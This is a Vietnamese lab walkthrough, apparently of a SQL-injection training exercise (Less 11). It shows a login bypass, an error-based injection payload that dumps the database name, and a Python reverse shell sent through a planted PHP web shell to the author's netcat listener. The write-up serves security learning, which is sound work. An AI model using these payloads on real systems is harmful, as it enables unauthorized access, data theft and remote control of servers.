# Less 11

Đề bài yêu cầu đăng nhập



Thử thực hiện đăng nhập



Như ở đây ta thấy đăng nhập không đúng sẽ thấy thông báo được ở trên màn hình. Tôi tiếp tục thử nhập linh tinh vào thì thấy có lỗi in ra màn hình



Tôi nhập khung đăng nhập giá trị



Ta có thể dự đoán câu query có thể là

```
select * from table where user='$user' and passwd='$passwd' limit 0,1
```

Theo phán đoán này tôi nhập vào giá trị ở user để cho điều kiện luôn đúng và bỏ qua phần passwd để xem có thể đăng nhập thành công hay không



Kết quả tôi đã login thành công mà không cần đến user và password


Như ở đây ta đã login thành công. Tôi cũng có thể login được thành công với 1 user khác


Bằng cách sử dụng login như sau



Ta thấy ở đây có thấy có hiển thị lỗi của SQL lên màn hình. Như vậy ở đây ta có thể tận dụng vào đây để khai thác 

Ví dụ ta show tên DB bằng cách nhập vào khung đăng nhập

```
1' and (SELECT 0 FROM (SELECT count(*), CONCAT((select database()), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) -- 
```

Ta thấy được lỗi hiển thị ra



Đây là params mà tôi truyền vào



Tương tự như vậy ta có thể sử dụng để cho nó hiển thị ra các thông tin khác của DB




Tương tự ta có thể để cho nó hiển thị ra các thông tin khác bằng cách làm tương tự như ở các bài trước. Ta cũng có thể thêm đoạn code PHP vào server như các bài trước

Tôi truyền vào params như sau



Kết quả như sau



Tôi có thể cho server đó kết nối đến như terminal của tôi như đang thực hiện ssh đến server đó

Tôi chạy dòng lệnh `nc -lvp 5555` trên máy của tôi

Sau đó mở trình duyệt trên máy của tôi và truyền vào url

```
http://192.168.84.233/tests/c2.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.70.161",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Ta thấy kết quả như sau

